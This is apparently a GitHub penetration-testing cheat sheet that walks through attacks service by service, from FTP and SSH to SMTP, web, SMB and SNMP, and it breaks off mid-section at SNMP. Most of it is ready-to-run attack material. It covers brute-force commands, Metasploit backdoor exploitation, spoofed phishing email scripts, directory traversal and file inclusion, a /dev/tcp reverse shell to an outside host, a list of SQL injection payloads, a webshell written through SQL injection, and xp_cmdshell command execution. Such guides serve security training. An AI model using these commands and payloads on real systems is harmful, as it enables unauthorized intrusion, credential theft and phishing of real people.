 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---

<details>
<summary>1.📂 FTP (File Transfer Protocol) port 21 </summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <ip> ftp

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

<details>
 
<summary>2.🔒 SSH (Secure Shell) port 22 </summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

https://docs.github.com/en/authentication/connecting-to-github-with-ssh/about-ssh

## SSH enumeration


#Login

    ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

**Enumerating SSH authentication method
The SSH authentication method can be enumerated by using the ssh-auth-methods script in nmap, the username can be given using the –script-args flag. The following command can be used to enumerate the authentication method used:

    nmap --script ssh-auth-methods --script-args="ssh.user=pentest" -p 22 <ip>
#cracking id_rsa or id_ecdsa

     ssh2john id_ecdsa(or)id_rsa > hash
     john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

bruteforce
Since the authentication is password based hence the service can be brute forced against a username and password dictionary using hydra to find the correct username and password. After creating a username dictionary as users.txt and password dictionary as pass.txt, the following command can be used:

    hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa
    hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<ip>

**Nmap SSH brute-force script

    nmap --script ssh-brute -p 22 <ip>
# Check for vulnerabilities associated with the identified version.

Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

### Authentication using Metasploit

An alternate way to perform the above procedure could be done by using the Metasploit module. The exploit multi/ssh/sshexec can be used to authenticate into the SSH service. Here we are assuming that the attacker has compromised the username and password already. Following will be the commands inside the Metasploit:

    use exploit/multi/ssh/sshexec
    set rhosts 192.168.31.205
    set payload linux/x86/meterpreter/reverse_tcp
    set username pentest
    set password 123
    show targets
    set target 1
    exploit

###Key based authentication (Metasploit)

The above procedure can also be performed using the Metasploit framework. The auxiliary/scanner/ssh/ssh_login_pubkey can be used to authenticate via key.

Following options can be given as configurations to run the auxiliary/scanner:

    use auxiliary/scanner/ssh/ssh_login_pubkey
    set rhosts 192.168.31.205
    set key_path /root/Downloads/ssh/id_rsa
    set key_pass 123
    set username pentest
    exploit
**while performing the brute force using hydra, the updated port needs to be given. Hence, the new command will be:

    hydra -L users.txt -P pass.txt <ip> ssh -s 2222
<img width="749" height="232" alt="image" src="https://github.com/user-attachments/assets/1aeefe88-7835-4718-857f-1107a5bb211a" />


**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)

**LAB**

🔍 1. Scan the Target with Nmap
You used Nmap to detect open ports, services, and versions on the target machine:

       nmap -sV -A -Pn -p22 192.168.188.131
![image](https://github.com/user-attachments/assets/0c302403-7c3a-43ba-8ae1-07e071f8290d)
identified OpenSSH 4.7p1

🌐 2. Search for Exploits
A quick Google search led to a publicly available exploit on GitHub.
![image](https://github.com/user-attachments/assets/5c3d0256-140d-496c-9a9d-659eee20cc72)

📥 3. Download the Exploit
You cloned the exploit repository using:

    git clone https://github.com/sec-jarial/OpenSSH_4.7p1-Exploit.git
    cd OpenSSH_4.7p1-Exploit

 
🐍 4. Fix Script Error: Bad Interpreter
When running the script:
 
    ./openssh_4.7p1.py                
    zsh: ./openssh_4.7p1.py: bad interpreter: /usr/bin/python3^M: no such file or directory

 ![image](https://github.com/user-attachments/assets/665777b1-d68e-4932-a420-ee61d5bd2a19)

✅ Fix: Convert Line Endings
The error indicates Windows-style line endings (CRLF). Fix it using:

    dos2unix openssh_4.7p1.py
Or, use a text editor (e.g., VS Code, Vim) to convert to LF.

🐍 5. Set the Correct Python Interpreter
Ensure the shebang (#!) at the top of the script points to your actual Python binary:

    #!/usr/bin/env python3
Replace the shebang accordingly.
Specify Correct Python Path: 

    #!/home/kali/path/to/venv/bin/python

![image](https://github.com/user-attachments/assets/19748c1f-cdd1-4297-88b6-e87a7104d17b)

▶️ 6. Run the Exploit
Now the script should execute without interpreter errors:

    ./openssh_4.7p1.py

![image](https://github.com/user-attachments/assets/e1e593d4-99f6-43cd-af6e-a231c1fcfb9d)

Result: Got the SSH shell

![image](https://github.com/user-attachments/assets/31ed8b76-ded9-427e-9850-9d19cf7f7ee7)


</details>
<details>
 <summary>3. SMTP (Simple Mail Transfer Protocol) port 25</summary>
 <br>
What is SMTP?
SMTP is the Simple Mail Transfer Protocol used to send emails between mail servers. It typically listens on port 25, though ports 587 (submission) and 465 (SMTPS) are also common.

Misconfigurations in SMTP servers—such as open relays, authentication bypass, or exposed user verification commands (VRFY/EXPN)—can be exploited to enumerate users, send spoofed phishing emails, or relay attacks.

🔎 ENUMERATING SMTP
🧪 Manual Banner Grabbing
bash

    nc -nv <IP> 25
Useful commands in the SMTP session:

smtp

    EHLO attacker.com
    VRFY root
    EXPN admin
    RCPT TO:test@target.com
Common responses:

250 OK → valid
550 User unknown → invalid
252 Cannot VRFY user → unverified (could be valid)

🛠 Tools for User Enumeration
✅ smtp-user-enum
Supports VRFY, RCPT, and EXPN modes.

bash

    smtp-user-enum -M VRFY -U users.txt -t <IP>
Other modes:

-M RCPT (works even if VRFY is disabled)
-M EXPN (useful if aliases/mailing lists are configured)

✅ Metasploit
bash

    use auxiliary/scanner/smtp/smtp_enum
    set RHOSTS <IP>
    set RPORT 25
    set USER_FILE users.txt
    run
✅ iSMTP (Kali Tool)
Test for enumeration, spoofing, and relay support.

bash

    ismtp -h <IP>:25 -e email_list.txt
✅ nmap Script
bash

    nmap -p 25 --script smtp-enum-users <IP>
💣 Exploiting Open Relay
An Open Relay allows unauthenticated users to send mail to external domains—ideal for phishing or spamming.

✅ Manual via Telnet
bash

    telnet <IP> 25
    HELO attacker.com
    MAIL FROM: attacker@attacker.com
    RCPT TO: victim@externaldomain.com
    DATA
    Subject: Test Message

    This is a test message.
    .
If 250 OK is received after RCPT TO, the server is likely an open relay.

✅ Nmap Open Relay Check
bash

    nmap -p 25 --script smtp-open-relay <IP>
📤 Sending Emails (Phishing / Spoofing)
✅ Using swaks
swaks is a powerful SMTP tester and spam/phish simulation tool.

bash

    swaks --to victim@target.com --from admin@target.com --server <IP> \--header "Subject: Update Required" --body @body.txt \--attach @file.pdf --auth LOGIN --auth-user attacker --auth-password password
Also works without auth on open relays:

bash

    swaks --to victim@target.com --from ceo@target.com --server <IP> --data "Subject: Urgent Action\nClick here"
🛠 ALTERNATIVE TOOLS
Tool	Purpose
smtp-user-enum	Bruteforce usernames via SMTP responses
swaks	Send test/phishing emails via SMTP
nmap smtp- scripts*	Banner grabbing, enum, relay checks
Metasploit smtp_enum	VRFY/EXPN-based user brute-force
iSMTP	Enumeration and spoofing test
smtp-cli	Lightweight mail-sender (can spoof headers)
Python + smtplib	Custom phishing or payload delivery scripts

🧪 Python Script Example (Spoofed Email)
python

    import smtplib
    from email.message import EmailMessage

    msg = EmailMessage()
    msg.set_content("This is a phishing test.")
    msg['Subject'] = 'Urgent Action Required'
    msg['From'] = 'admin@company.com'
    msg['To'] = 'victim@company.com'

    server = smtplib.SMTP('<IP>', 25)
    server.send_message(msg)
    server.quit()
🛡️ Mitigation Tips
❌ Disable VRFY and EXPN commands (or return generic error like 252)

❌ Disable open relay (ensure relay is restricted to known internal IPs)

✅ Use SMTP AUTH and TLS for submission

✅ Monitor SMTP logs for brute-force attempts or external relays

✅ Apply SPF, DKIM, and DMARC to prevent spoofing

📚 Real-World Use Cases
🎣 Phishing Campaigns – Sending fake internal alerts or staged payloads

🕵️ Internal Recon – Validating usernames before brute-forcing SMB/WinRM

🧠 Password Spray – Combining usernames from SMTP enumeration in other protocols (SMB, HTTP, WinRM, etc.)

</details>

<details>
<summary>4. DNS (Domain Name System) port 53</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>

<details>
<summary>5. HTTP/S (Hypertext Transfer Protocol) port 80, 443</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
dirb http://<ip> /usr/share/seclists/Discovery/Web-Content/raft-medium-words -R
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

<details>
<summary>6. POP3 (Post Office Protocol Version 3) port 110</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>



<details>
<summary>7.🔌 RPC (Remote Procedure Call) port 111 </summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---
</details>

<details>
<summary>8.🗂️ SMB (Server Message Block) port 139,445</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>
<details>
<summary>9.📡 SNMP (Simple Network Management Protocol) port UDP 161</summary>
 <br>
What is SNMP?
Simple Network Management Protocol (SNMP) is used to manage and monitor networked devices (routers, switches, printers, servers, etc.). It typically runs over UDP port 161 for general communication and UDP port 162 for traps.
SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)
Devices expose information using MIBs (Management Information Base).

SNMP is stateless and supports versions v1, v2c, and v3:

v1/v2c are widely used but insecure (community strings are in plaintext).

v3 adds encryption and authentication.

🧭 Enumeration Techniques
1. Port Scanning
bash

       nmap -sU -p 161,162 <target-ip>
-sU: Scan UDP ports
-p: Specify SNMP ports (161 for queries, 162 for traps)

2. snmpwalk
bash

       snmpwalk -v1 -c public <target-ip>
Use -v2c or -v3 as needed.

Common community strings: public, private, manager.

Useful OIDs:
1.3.6.1.2.1.1.5.0 – Hostname

1.3.6.1.2.1.25.1.6.0 – System processes

1.3.6.1.2.1.25.4.2.1.2 – Running processes

1.3.6.1.4.1 – Vendor-specific MIBs


**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```

3. snmpset (Active interaction)
bash

       snmpset -v1 -c private <target-ip> iso.3.6.1.2.1.1.5.0 s "hacked"
Requires write access (via private community string).

4. Dump Output to File
bash

       snmpwalk -v1 -c public <target-ip> > snmpout.txt
gedit snmpout.txt
5. SNMP-check
bash

